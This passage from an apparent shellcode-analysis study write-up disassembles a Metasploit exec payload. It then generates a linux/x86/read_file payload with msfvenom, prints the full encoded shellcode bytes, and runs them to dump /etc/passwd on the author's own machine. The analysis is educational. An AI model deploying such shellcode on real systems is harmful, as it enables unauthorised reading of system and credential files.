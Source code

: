 Now that the stack contains [0x00402078	0x00000000] which is effectively "pwd\0" we perform two more pushes to setup the full command that we'll send to the execve system call.

After these instructions ECX will point to [0xbffff012, 0xbffff01a, 0x00402078, 0x00000000] on the stack.
```
   0x40207c <code+60>:	push   edi                        ; pushes "-c" address
   0x40207d <code+61>:	push   ebx                        ; pushes "/bin/sh" address
   0x40207e <code+62>:	mov    ecx,esp                    ; moves pointer to stack to ecx
```

We finally make our call to execve which prints the current working directory.
```
   0x402080 <code+64>:	int    0x80                       ; calls execve
```

<a name="sample2"></a>
## Sample2: linux/x86/read_file
To generate a payload with the linux/x86/read_file payload I executed the following command to generate shellcode that could be placed into my test C program.
```
[sengen@manjaro-x86 sample2]$ msfvenom -p linux/x86/read_file fd=1 path=/etc/passwd -b '\x00' -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 100 (iteration=0)
x86/shikata_ga_nai chosen with final size 100
Payload size: 100 bytes
Final size of c file: 445 bytes
unsigned char buf[] =
"\xba\xb0\xf6\x73\xfc\xda\xc6\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
"\x13\x83\xc6\x04\x31\x56\x0f\x03\x56\xbf\x14\x86\x17\x89\x60"
"\x6c\xe8\xf5\x90\x34\xd9\x3c\x5d\x4a\x90\x7d\xe6\x48\xa3\x81"
"\x17\xc6\x44\x08\xee\x62\x8a\x1a\x11\x93\x46\x9a\x98\x51\xe0"
"\x9e\x9a\x55\x11\x25\x9b\x55\x11\x59\x51\xd5\xa9\x58\x69\xd6"
"\xc9\xe1\x69\xd6\xc9\x15\xa7\x56\x21\xd0\xc8\xa8\x4d\xf5\x53"
"\x23\xd1\x26\xec\xaa\x66\x4b\x7b\x49\x89";
```

### Copied the shellcode to a test program and made sure it worked
```bash
[sengen@manjaro-x86 sample2]$ gcc readfile_payload.c -o readfile_payload
[sengen@manjaro-x86 sample2]$ ./readfile_payload
Shellcode Length:  100
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/usr/bin/nologin
daemon:x:2:2:daemon:/:/usr/bin/nologin
mail:x:8:12:mail:/var/spool/mail:/usr/bin/nologin
ftp:x:14:11:ftp:/srv/ftp:/usr/bin/nologin
http:x:33:33:http:/srv/http:/usr/bin/nologin
dbus:x:81:81:dbus:/:/usr/bin/nologin
nobody:x:99:99:nobody:/:/usr/bin/nologin
systemd-journal-gateway:x:191:191:systemd-journal-gateway:/:/usr/bin/nologin
systemd-timesync:x:192:192:systemd-timesync:/:/usr/bin/nologin
systemd-network:x:193:193:systemd-network:/:/usr/bin/nologin
systemd-bus-proxy:x:194:194:systemd-bus-proxy:/:/usr/bin/nologin
systemd-resolve:x:195:195:systemd-resolve:/:/usr/bin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/sbin/nologin
systemd-journal-upload:x:997:997:systemd Journal Upload:/:/sbin/nologin
systemd-journal-remote:x:999:999:systemd Journal Remote:/:/sbin/nologin
uuidd:x:68:68::/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/dev/null:/bin/false
dnsmasq:x:996:996:dnsmasq daemon:/:/sbin/nologin
```